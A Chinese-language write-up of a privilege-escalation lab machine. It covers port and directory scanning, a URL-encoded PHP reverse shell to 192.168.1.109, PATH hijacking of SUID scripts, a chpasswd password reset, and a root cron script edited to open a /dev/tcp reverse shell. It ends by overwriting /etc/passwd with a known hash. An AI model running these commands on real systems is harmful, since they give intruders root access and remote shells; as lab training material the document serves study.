



该机器的主要重点是学习Linux Post Exploitation（权限提升）技术。

## 端口扫描

```bash
┌──(fforu㉿fforu)-[~/workspace]
└─$ sudo nmap -sT -sCV -O -p30,42,80,111,139,445,597,861,1474,2049,2157,2299,2523,2801,2836,3434,4213,4223,4308,4315,4336,4510,5062,5142,6194,6329,6394,8167,9897,10403,10505,10923,11688,12518,13725,13890,14123,14314,14955,14960,15387,16195,16416,16519,18338,18402,19678,20133,21292,22140,22799,23526,24906,25684,25860,27001,27957,28424,28696,28887,28972,29557,29568,30272,30659,31251,31307,32335,32471,32476,32562,32800,33567,34158,36875,37627,37921,38584,39037,40020,40459,40779,41830,41986,42091,42279,43408,43504,43780,44000,44037,44121,44390,45299,45331,45941,45950,46787,46813,47507,48553,49132,49799,50156,50191,50193,50377,51209,51542,51579,52345,52394,53871,54103,54320,55381,55546,55827,56489,56974,57215,57930,58167,59131,59177,59324,59969,60540,60865,61631,62282,63014,63344,64424,65229 192.168.1.111
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-04 13:58 CST
Nmap scan report for 192.168.1.111
Host is up (0.0024s latency).
Not shown: 126 closed tcp ports (conn-refused)
PORT      STATE SERVICE     VERSION
80/tcp    open  http        Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
111/tcp   open  rpcbind     2-4 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      42167/udp6  mountd
|   100005  1,2,3      46703/udp   mountd
|   100005  1,2,3      52133/tcp6  mountd
|   100005  1,2,3      58167/tcp   mountd
|   100021  1,3,4      32799/udp   nlockmgr
|   100021  1,3,4      37921/tcp   nlockmgr
|   100021  1,3,4      41041/tcp6  nlockmgr
|   100021  1,3,4      49473/udp6  nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp   open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
2049/tcp  open  nfs         3-4 (RPC #100003)
37921/tcp open  nlockmgr    1-4 (RPC #100021)
44037/tcp open  mountd      1-3 (RPC #100005)
46813/tcp open  mountd      1-3 (RPC #100005)
58167/tcp open  mountd      1-3 (RPC #100005)
MAC Address: 08:00:27:62:F1:E2 (Oracle VirtualBox virtual NIC)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=4/4%OT=80%CT=30%CU=34999%PV=Y%DS=1%DC=D%G=Y%M=08002
OS:7%TM=660E41AD%P=x86_64-pc-linux-gnu)SEQ(II=I)ECN(R=N)T1(R=N)T2(R=N)T3(R=
OS:N)T4(R=N)T5(R=N)T6(R=N)T7(R=N)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G
OS:%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 1 hop
Service Info: Host: LINUX

Host script results:
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: osboxes
|   NetBIOS computer name: LINUX\x00
|   Domain name: \x00
|   FQDN: osboxes
|_  System time: 2024-04-04T01:59:08-04:00
|_nbstat: NetBIOS name: LINUX, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2024-04-04T05:59:08
|_  start_date: N/A
|_clock-skew: mean: 1h19m58s, deviation: 2h18m33s, median: -1s

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.81 seconds

```

## 目录扫描

```bash
┌──(fforu㉿fforu)-[~/workspace]
└─$ sudo gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://192.168.1.111/ -q -x txt,html,php,zip,rar
/.html                (Status: 403) [Size: 293]
/.php                 (Status: 403) [Size: 292]
/index.html           (Status: 200) [Size: 10918]
/shell.php            (Status: 200) [Size: 29]
```


这应该就是给shell了
那反弹shell

## 提权

拿个php的反弹shell去url编码一下直接就可以弹了
php%20-r%20%27%24sock%3Dfsockopen%28%22192.168.1.109%22%2C4444%29%3Bexec%28%22bash%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27



### SUID

```bash
 user6  / | var | www | html  find / -perm -u=s -type f 2>/dev/null
/sbin/mount.nfs
/sbin/mount.ecryptfs_private
/sbin/mount.cifs
/usr/sbin/pppd
/usr/bin/gpasswd
/usr/bin/pkexec
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/traceroute6.iputils
/usr/bin/chfn
/usr/bin/arping
/usr/bin/newgrp
/usr/bin/sudo
/usr/lib/xorg/Xorg.wrap
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/bin/ping
/bin/su
/bin/ntfs-3g
/bin/mount
/bin/umount
/bin/fusermount
/home/user5/script
/home/user3/shell
```
### 提权1

到user3目录下直接运行shell就是root了

### PATH提权
```bash
 user5  ~  cd /tmp
 user5  /  tmp  echo '/bin/bash'>ls
 user5  /  tmp  export PATH=/tmp:$PATH
 user5  /  tmp  chmod 777 ls
 user5  /  tmp  cd ~/
 user5  ~  ./script
Welcome to Linux Lite 4.4 user5

Thursday 04 April 2024, 08:21:54
Memory Usage: 354/985MB (35.94%)
Disk Usage: 5/217GB (3%)
Support - https://www.linuxliteos.com/forums/ (Right click, Open Link)
 root  ~  
```


### 改用户密码，横向移动，sudo提权

```bash
 user6  /  tmp  echo 'echo "user1:12345"|chpasswd' >ls
 user6  /  tmp  chmod 777 ls
 user6  /  tmp  export PATH=/tmp:$PATH
 user6  /  tmp  cd /home/user5
 user6  /  home  user5  ./script
 user6  /  home  user5  su user1
Password:
Welcome to Linux Lite 4.4 user1

Thursday 04 April 2024, 08:05:22
Memory Usage: 344/985MB (34.92%)
Disk Usage: 5/217GB (3%)
Support - https://www.linuxliteos.com/forums/ (Right click, Open Link)

 user1  /  home  user5  whoami
user1
 user1  /  home  user5  sudo -l
[sudo] password for user1:
Matching Defaults entries for user1 on osboxes:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User user1 may run the following commands on osboxes:
    (ALL : ALL) ALL
 user1  /  home  user5  sudo su
Welcome to Linux Lite 4.4

You are running in superuser mode, be very careful.

Thursday 04 April 2024, 08:05:34
Memory Usage: 347/985MB (35.23%)
Disk Usage: 5/217GB (3%)

 root  /  home  user5  exit
```
通过写入`echo "user1:12345"|chpasswd`命令，当再次执行script时会执行该命令
随后就将用户user1的用户密码改了
sudo -l发现有所有权限

### 计划任务提权

```bash
 user1  /  home  user5  cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
*/5  *    * * * root    /home/user4/Desktop/autoscript.sh
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
```
看到user4有计划任务，并且user还是root，那么直接登录user4改脚本
```bash
user1  /  home  user5  cat /home/user4/Desktop/autoscript.sh
touch /home/user4/abc.txt
echo "I will automate the process"
bash -i
bash -c 'bash -i >& /dev/tcp/192.168.1.109/2333 0>&1'
```
稍作等待得到rootshell
```bash
┌──(fforu㉿fforu)-[~/workspace/tmp]
└─$ nc -lvnp 2333
listening on [any] 2333 ...
connect to [192.168.1.109] from (UNKNOWN) [192.168.1.111] 44380
bash: cannot set terminal process group (24686): Inappropriate ioctl for device
bash: no job control in this shell
Welcome to Linux Lite 4.4

You are running in superuser mode, be very careful.

Thursday 04 April 2024, 08:05:03
Memory Usage: 341/985MB (34.62%)
Disk Usage: 5/217GB (3%)

 root  ~  

```

### 改写/etc/passwd
登录user7
id可以发现user7是root组用户
nano /etc/passwd

```bash
┌──(fforu㉿fforu)-[/root]
└─$ openssl passwd 123456
$1$H/stZw/W$7rLSU319Y0IsyEt2pqiE./
```

```bash
 user6  / | var | www | html  cat /etc/passwd
root:$1$H/stZw/W$7rLSU319Y0IsyEt2pqiE./:0:0:root:/root:/bin/bash
```

su root
123456
